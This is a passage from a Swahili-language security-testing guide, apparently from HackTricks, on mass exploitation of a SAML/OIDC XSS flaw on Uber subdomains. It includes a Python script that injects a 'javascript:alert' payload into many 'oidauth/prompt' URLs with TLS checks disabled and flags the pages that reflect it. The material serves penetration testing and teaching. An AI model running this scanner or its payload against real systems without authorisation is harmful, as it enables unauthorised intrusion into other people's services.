 ### Mass Exploitation

[Kutoka utafiti huu](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/):

Zana ya [**SAMLExtractor**](https://github.com/fadyosman/SAMLExtractor) ilitumika kuchambua subdomains za `uberinternal.com` kwa ajili ya maeneo yanayotumia maktaba ileile. Baadaye, skripti ilitengenezwa kulenga ukurasa wa `oidauth/prompt`. Skripti hii inajaribu XSS (Cross-Site Scripting) kwa kuingiza data na kuangalia kama inajitokeza katika matokeo. Katika hali ambapo ingizo linaonekana, skripti inatambua ukurasa kama dhaifu.
```python
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from colorama import init ,Fore, Back, Style
init()

with open("/home/fady/uberSAMLOIDAUTH") as urlList:
for url in urlList:
url2 = url.strip().split("oidauth")[0] + "oidauth/prompt?base=javascript%3Aalert(123)%3B%2F%2FFady&return_to=%2F%3Fopenid_c%3D1520758585.42StPDwQ%3D%3D&splash_disabled=1"
request = requests.get(url2, allow_redirects=True,verify=False)
doesit = Fore.RED + "no"
if ("Fady" in request.content):
doesit = Fore.GREEN + "yes"
print(Fore.WHITE + url2)
print(Fore.WHITE + "Len : " + str(len(request.content)) + "   Vulnerable : " + doesit)
```
## Marejeo

- [https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
- [https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-13-how-to-test-saml-a-methodology-part-two/)
- [https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/](https://epi052.gitlab.io/notes-to-self/blog/2019-03-16-how-to-test-saml-a-methodology-part-three/)
- [https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/](https://blog.fadyothman.com/how-i-discovered-xss-that-affects-over-20-uber-subdomains/)

{{#include ../../banners/hacktricks-training.md}}
